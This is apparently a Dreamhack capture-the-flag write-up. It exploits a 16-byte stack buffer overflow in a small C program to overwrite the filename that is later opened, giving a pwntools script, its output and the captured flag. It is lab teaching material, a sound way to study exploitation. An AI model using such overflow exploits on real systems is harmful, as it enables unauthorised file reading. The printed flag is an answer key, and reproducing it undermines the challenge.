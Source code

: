 ### Source Code Overview 
```c
void read_cat(char *param_1)

{
  int iVar1;
  char out_string [128];
  ssize_t local_18;
  int fd;
  
  memset(out_string,0,0x80);
  fd = 0;
  fd = open(param_1,0);
  if (fd == -1) {
    puts("open() error");
    FUN_00401140(1);
  }
  local_18 = read(fd,out_string,0x80);
  if (local_18 == -1) {
    puts("read() error");
    FUN_00401140(1);
  }
  puts("");
  puts(out_string); // print output string
  iVar1 = close(fd);
  if (iVar1 != 0) {
    puts("close() error");
    FUN_00401140(1);
  }
  return;
}


undefined8 main(EVP_PKEY_CTX *param_1)

{
  undefined out_string [128];
  undefined4 local_18;
  undefined2 local_14;
  
  init(param_1);
  local_18 = 0x61632f2e;
  local_14 = 0x74;
  printf("meow? ");
  __isoc99_scanf("%144s",out_string);
  read_cat(&local_18);
  printf("meow, %s :)\n",out_string);
  return 0;
}

```
Take a look at the main() function, we can see that the stack will be look like this:
``Out_tring[128 bytes] local18[4 bytes] local14[2 bytes]``
And there is a big buffer overflow vulnerability while we can override `144-128=16` bytes

The value of `local_18 and local_14` after convert to ascii is `./cat` 

And combine with these lines in `read_cat()` function:
``
fd = open(param_1,0);
local_18 = read(fd,out_string,0x80);
``

It will read 128 bytes from fd of `param_1 that is local_18(0x61632f2e) in main()` amd it means that it also read the `local_14` 

Thus, in this program, it will call `read_cat() `to read the content of file `./cat`

### Exploitation

We have buffer overflow 16 bytes, and we will override the value of `local18 and local14` on stack by the file `/home/bof/flag\0` - it is enough for overflow 16 bytes

The script code:

```py
from pwn import *
p = remote('host3.dreamhack.games', 16582)
payload = b'A'*128
payload += b'/home/bof/flag\0'
p.recvuntil(b"meow? ")
p.sendline(payload)
p.interactive()
```

Result:

```
khanh@ubuntu:~/Documents/PWN-dreamhack/bof/deploy$ python3 sol.py 
[+] Opening connection to host3.dreamhack.games on port 16582: Done
[*] Switching to interactive mode

DH{5cd1f793ae6a081e4bfd28f6d570d83355148245fbe7c1f69b12771202b80a13}

meow, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/bof/flag :)
[*] Got EOF while reading in interactive
```